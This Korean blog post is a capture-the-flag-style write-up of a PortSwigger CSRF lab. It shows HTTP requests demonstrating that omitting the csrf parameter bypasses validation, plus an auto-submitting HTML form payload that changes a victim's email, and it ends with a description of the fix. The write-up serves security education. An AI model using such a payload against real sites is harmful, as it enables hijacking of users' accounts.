


+++
date = '2026-06-23T15:00:00+09:00'
draft = false
title = '[Write-up] PortSwigger - CSRF where token validation depends on token being present'
summary = "토큰이 제출된 경우에만 검증하는 구현에서 csrf 파라미터를 통째로 생략해 방어를 우회하는 풀이"
toc = true
tags = ["CSRF", "CSRF Token", "PortSwigger", "Practitioner"]
url = '/write-up/portswigger/csrf/write-up-portswigger---csrf-where-token-validation-depends-on-token-being-present/'
+++

---

## 문제 분석

> **난이도**: `PRACTITIONER`  
> **Lab**: [CSRF where token validation depends on token being present](https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-validation-depends-on-token-being-present)

> 

이메일 변경 기능에 CSRF 취약점이 존재한다. 제목에서 알 수 있듯 토큰 검증이 토큰이 존재하는 경우에만 이루어진다. CSRF 공격으로 피해자의 이메일 주소를 변경하면 문제가 해결된다. 실습 계정은 `wiener:peter`다.

### CSRF 진단

정상적으로 이메일을 변경하고 요청을 확인한다.

```http
POST /my-account/change-email HTTP/2
Host: <lab-id>.web-security-academy.net
Cookie: session=<session>
Content-Type: application/x-www-form-urlencoded

email=csrf%40csrf.com&csrf=<csrf-token>
```

토큰 값을 임의로 바꾸면 요청이 거부되지만, `csrf` 파라미터를 이름까지 통째로 제거하고 보내면 이메일이 정상적으로 변경된다.

```http
POST /my-account/change-email HTTP/2
Host: <lab-id>.web-security-academy.net
Cookie: session=<session>
Content-Type: application/x-www-form-urlencoded

email=csrf%40csrf.com
```

검증 로직이 "파라미터가 있으면 값을 비교하고, 없으면 통과"하는 구조인 것이다. 세션 쿠키의 `SameSite`도 `None`이므로 교차 사이트 `POST`에 쿠키가 실린다.

---

## 익스플로잇

토큰을 아예 넣지 않은 폼을 만들어 자동 제출한다.

```html
<form id="autosubmit" action="https://<lab-id>.web-security-academy.net/my-account/change-email" method="POST">
    <input name="email" value="csrf2@csrf.com" />
</form>

<script>
    document.getElementById("autosubmit").submit();
</script>
```

공격자는 피해자의 토큰 값을 알 수 없지만 이 랩에서는 알 필요가 없다. 파라미터를 생략하는 것만으로 검증 분기 자체를 건너뛴다.

이 페이로드를 Exploit Server에 업로드하고 피해자에게 전달하면 문제가 해결된다.



---

## 정리

이 랩의 결함은 검증을 "값이 틀렸는지"를 확인하는 문제로만 다룬 데 있다. 토큰 방어가 실제로 보장해야 하는 것은 값의 일치가 아니라 **유효한 토큰이 반드시 제출되었다는 사실**이다. 값 비교 이전에 존재 여부를 확인하지 않으면, 공격자는 값을 맞출 필요 없이 검증 대상에서 벗어나기만 하면 된다.

앞선 [메서드 의존 검증 랩](/write-up/portswigger/csrf/write-up-portswigger---csrf-where-token-validation-depends-on-request-method/)과 형태는 다르지만 원인은 같다. 검증이 행위를 기준으로 걸리지 않고 특정 조건(메서드, 파라미터 존재)이 맞을 때만 동작하는 구조라는 점이다. 이 패턴은 검증을 별도 미들웨어나 조건문으로 분리했을 때 자주 나타난다.

방어는 파라미터가 없는 경우와 값이 틀린 경우를 동일하게 처리하는 것이다. 토큰이 누락되었으면 그 자체를 검증 실패로 간주하고, 두 경우 모두 같은 응답을 반환해 어느 쪽으로 거부되었는지 구분할 수 없게 해야 한다.
